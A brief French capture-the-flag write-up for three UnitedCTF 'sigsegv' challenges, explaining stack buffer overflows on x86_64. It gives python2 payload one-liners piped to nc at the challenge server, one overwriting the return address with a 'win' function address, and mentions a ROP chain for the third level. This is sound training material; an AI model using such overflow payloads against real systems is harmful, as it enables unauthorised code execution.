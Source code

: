sigsegv1:
Il faut juste remplir le buffer et declencehr une sigsegv
le buffer fait 0x20 d'apres l'assembleur ET le code C
en mettant 0x28 on ecrase rbp et le NULL byte de gets ecrase l'adresse
de retour --> on a le flag

`python2 -c 'print("A"*0x28)' | nc nc.ctf.unitedctf.ca 4000`

sigsegv2:
Meme chose mais on ajoute l'adresse de retour vers win qui ne prend pas
d'argupments donc pas de soucis, attention on ets en x86_64
il faut bien penser à ecrire l'adresse de win en entiere (8 bytes)
On pet la trouver avec un objdump sur le binaire fourni

`python2 -c 'print("A"*0x28 + "\xa6\x09\x40" + "\x00"*5)' | nc nc.ctf.unitedctf.ca 4000`

sigsegv3:
meme fonctionnement mais rop chain pour fill rdi et rsi pour valider la condition

